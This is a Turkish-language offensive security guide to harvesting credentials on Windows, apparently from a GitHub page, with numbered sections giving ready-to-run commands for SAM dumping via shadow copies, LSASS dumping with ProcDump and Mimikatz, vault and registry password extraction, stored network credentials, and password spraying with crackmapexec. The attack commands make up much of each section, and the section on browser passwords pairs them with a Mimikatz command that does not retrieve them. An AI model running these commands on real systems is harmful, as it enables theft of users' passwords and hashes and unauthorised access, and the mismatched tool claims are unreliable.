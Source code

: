 **Windows Privilege Escalation: Credential Harvesting (Kimlik Bilgisi Toplama)**

Credential harvesting, Windows sistemlerinde saklanan kullanıcı adları ve şifrelerin ele geçirilmesini hedefleyen yöntemleri içerir. Bu bilgiler, genellikle sistem üzerindeki şifreli dosyalardan, bellekten veya diğer kaynaklardan elde edilebilir. Aşağıda bu yöntemleri detaylı şekilde açıklıyorum:

---

### **3.1. SAM Database Dump (SAM Veritabanını Ele Geçirme)**

Windows, kullanıcı şifre hash'lerini **SAM (Security Account Manager)** veritabanında saklar. Bu veritabanı ele geçirilip hash değerleri kırılarak şifreler öğrenilebilir.

#### **Nasıl Çalışır?**
- **SAM** dosyası `C:\Windows\System32\config\SAM` yolunda bulunur. Ancak, bu dosyaya doğrudan erişim için SYSTEM yetkileri gerekir.

#### **Tespit ve Kötüye Kullanma**
1. SAM dosyasını almak için:
   - **Metasploit** kullanarak:
     ```cmd
     load kiwi
     creds_all
     ```
   - **Volume Shadow Copy** ile SAM dump:
     ```cmd
     vssadmin create shadow /for=C:
     copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\Temp\SAM
     ```
2. **John the Ripper** veya **hashcat** ile hash kırma işlemi yapılabilir.

---

### **3.2. LSASS Process Dumping (Bellek Dump ile Şifre Ele Geçirme)**

LSASS (Local Security Authority Subsystem Service) işlemi, kullanıcı oturum açma bilgilerini RAM'de saklar. Bu işlem dump edilerek şifreler veya hash'ler ele geçirilebilir.

#### **Tespit ve Kötüye Kullanma**
1. **Task Manager** ile LSASS işlemini kontrol edin.
2. **ProcDump** veya **Mimikatz** kullanarak dump alın:
   - LSASS dump almak için:
     ```cmd
     procdump.exe -ma lsass.exe lsass.dmp
     ```
   - Dump dosyasını **Mimikatz** ile analiz edin:
     ```cmd
     mimikatz.exe
     sekurlsa::minidump lsass.dmp
     sekurlsa::logonpasswords
     ```

---

### **3.3. Credential Manager ve Vault (Kimlik Yöneticisi ve Kasası)**

Windows Credential Manager, kullanıcı adı ve şifreleri saklar. Bu bilgiler genellikle erişilebilir durumdadır.

#### **Nasıl Çalışır?**
- Credential Manager, web uygulamaları veya uzak sunucular için kaydedilmiş kimlik bilgilerini içerir.

#### **Tespit ve Kötüye Kullanma**
- **cmdkey** komutu ile mevcut kimlik bilgilerini görüntüleme:
  ```cmd
  cmdkey /list
  ```
- Mimikatz ile credential extraction:
  ```cmd
  mimikatz.exe
  vault::list
  vault::cred
  ```

---

### **3.4. Registry Stored Credentials (Kayıt Defterinde Saklanan Kimlik Bilgileri)**

Bazı uygulamalar ve servisler şifreleri kayıt defterinde düz metin veya şifrelenmiş olarak saklar.

#### **Tespit ve Kötüye Kullanma**
- Kayıt defterini arayın:
  ```cmd
  reg query HKLM /f password /t REG_SZ /s
  reg query HKCU /f password /t REG_SZ /s
  ```
- Özellikle aşağıdaki yolları kontrol edin:
  - `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`
  - `HKCU\Software\Microsoft\Credentials`

---

### **3.5. Network Stored Credentials (Ağda Saklanan Kimlik Bilgileri)**

Bazı sistemler ağ paylaşımı sırasında kimlik bilgilerini hatırlar. Bu bilgiler, saldırgan tarafından ele geçirilebilir.

#### **Tespit ve Kötüye Kullanma**
1. Saklanan ağ kimlik bilgilerini kontrol edin:
   ```cmd
   net use
   ```
2. Kimlik bilgilerini görüntüleyin:
   ```cmd
   rundll32.exe keymgr.dll,KRShowKeyMgr
   ```

---

### **3.6. Password Spraying ve Bruteforce Saldırıları**

Sistemdeki kullanıcılar için yaygın şifreler denenerek kimlik bilgileri ele geçirilebilir.

#### **Tespit ve Kötüye Kullanma**
1. Kullanıcı adlarını enumerate edin (örneğin, `GetADUsers.py` ile).
2. Password spraying aracı kullanın:
   ```cmd
   crackmapexec smb [target-ip] -u users.txt -p passwords.txt
   ```

---

### **3.7. Saved Browser Passwords (Tarayıcıda Kaydedilmiş Şifreler)**

Bazı kullanıcılar tarayıcılarında şifrelerini saklar. Bu şifreler genellikle düz metin olarak erişilebilir.

#### **Tespit ve Kötüye Kullanma**
1. **NirSoft BrowserPassView** veya benzer araçlarla şifreleri çıkarın.
2. **Mimikatz** kullanarak saklanan şifreleri alın:
   ```cmd
   mimikatz.exe
   sekurlsa::logonpasswords
   ```

---

### **Araçlar ve Komutlar**
- **Mimikatz:** Şifre ve hash ele geçirmek için.
- **ProcDump:** LSASS işlemini dump etmek için.
- **NirSoft Tools:** Tarayıcı şifrelerini ve diğer kayıtlı bilgileri çıkarır.
- **Metasploit Framework:** Credential harvesting modülleri içerir.

---

Bu yöntemlerin hepsi, sistemdeki zayıf noktaları kullanarak kimlik bilgilerini ele geçirmeye odaklanır. Daha fazla detaylı bilgi veya özel bir senaryo için örneklerle devam edebilirim! 😊
